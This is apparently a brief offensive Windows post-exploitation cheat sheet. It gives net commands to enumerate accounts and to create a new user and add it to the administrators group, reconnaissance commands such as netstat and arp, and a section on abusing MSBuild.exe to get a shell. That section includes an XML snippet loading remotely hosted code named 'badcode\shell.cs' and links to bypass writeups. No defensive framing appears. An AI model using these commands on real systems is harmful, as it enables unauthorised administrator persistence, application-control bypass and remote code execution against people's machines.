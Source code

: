 ```PowerShell
net user
net localgroup
net localgroup administrators
net user newUserName newUserPwd / add
net localgroup administrators newUserName / add
```
## Recent Comms
```PowerShell
netstat -n
arp -a
ipconfig /displaydns
```

## Leverage MSBuild
MSBuild.exe located @ C:\Windows\Microsoft.NET\Framework64\v4.0.30319
You can use a schema XML file to get a shell. Example:
```https://gist.github.com/ChrisTruncer/ea8b29c78f54f9eb4c7b505c27ec4c72```   
```https://fortynorthsecurity.com/blog/another-msbuild-bypass-february-2020-edition/```   
**Host the code remotely**   
```https://fortynorthsecurity.com/blog/remotely-host-msbuild-payloads/```   
```XML
<Code Type="Class" Language="cs" Source="\\127.0.0.1\badcode\shell.cs">
```   


